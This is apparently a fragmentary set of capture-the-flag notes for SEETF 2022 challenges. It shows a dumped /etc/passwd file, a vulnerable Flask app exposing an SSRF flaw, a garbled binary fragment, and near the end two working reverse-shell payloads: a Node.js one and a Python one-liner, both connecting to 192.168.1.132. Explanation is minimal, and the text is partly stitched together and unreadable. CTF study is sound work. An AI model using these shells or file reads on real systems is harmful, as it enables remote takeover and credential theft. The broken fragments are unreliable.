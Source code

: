 Flags

SEE{[ -~]+} 
SEE{}


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

SEE{2nd_fl4g_n33ds_RCE_g00d_luck_h4x0r}

SEE{4_JUNE_2022_00:00:00}


SSRF

```
avataris12@kali:~/CTFs/SEETF/distrib$ cat app.py 
from flask import Flask, request, render_template
import os
import advocate
import requests

app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def index():

    if request.method == 'POST':
        url = request.form['url']

        # Prevent SSRF
        try:
            advocate.get(url)

        except:
            return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

        r = requests.get(url)
        return render_template('index.html', result=r.text)

    return render_template('index.html')


@app.route('/flag')
def flag():
    if request.remote_addr == '127.0.0.1':
        return render_template('flag.html', FLAG=os.environ.get("FLAG"))

    else:
        return render_template('forbidden.html'), 403


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80, threaded=True)



```


{PYLc!..1..Z.-&$p.z..Ew.76.T.z." .%~.-N,..}


```
```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(1234, "192.168.1.132", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
```

hostname
app-6799f56885-p78l5

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.132",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
